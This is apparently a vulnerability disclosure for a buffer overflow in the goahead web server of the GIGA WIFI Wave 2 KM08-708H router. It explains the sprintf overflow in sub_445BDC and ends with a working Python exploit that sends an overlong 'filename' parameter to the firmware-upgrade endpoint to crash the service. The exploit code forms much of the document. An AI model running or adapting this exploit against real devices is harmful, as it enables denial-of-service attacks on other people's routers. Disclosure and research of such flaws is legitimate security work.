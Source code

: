 Affected Versions:

GIGA WIFI Wave 2 - KM08-708H

Vulnerability Description:

There is a buffer overflow vulnerability in the `sub_445BDC()` function within the `/usr/sbin/goahead` program. After being filtered, the parameter `a1` is assigned to `v27` and subsequently passed to `v72` through a `sprintf` concatenation. Since both `a1` and `v27` are controllable, and `v72` has a length of 9464, the concatenation with the `sprintf` function can cause a buffer overflow. This eventually leads to a segmentation fault, rendering the service inaccessible.

![[pic/Pasted image 20240817150107.png]]
![[pic/Pasted image 20240820131730.png]]
![[pic/Pasted image 20240820131427.png]]
![[pic/Pasted image 20240820132046.png]]
![[pic/Pasted image 20240820131659.png]]

Buffer Overflow Result:
![[Pasted image 20240827111357.png]]

EXP：

```
import requests

def make_request(filename_value):
    url = "http://172.30.1.254:8899/goform/mcr_setFwUpgrade"
    params = {
        "filename": filename_value,
        "upgradeType": "1"
    }

    headers = {
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Referer": "http://172.30.1.254:8899/new/UserFolder/main.asp",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "zh,en-US;q=0.9,en;q=0.8",
        "Cookie": "MCRSESSIONID=B40B76FCC9FBE74B5F7511631B53504F3A8B767FD92B01882ACCAF1298AEC529",
        "Connection": "close"
    }

    response = requests.get(url, headers=headers, params=params)
    return response.text

# Construct a filename with 15000 'A' characters
filename_value = 'A' * 15000
print(make_request(filename_value))

```



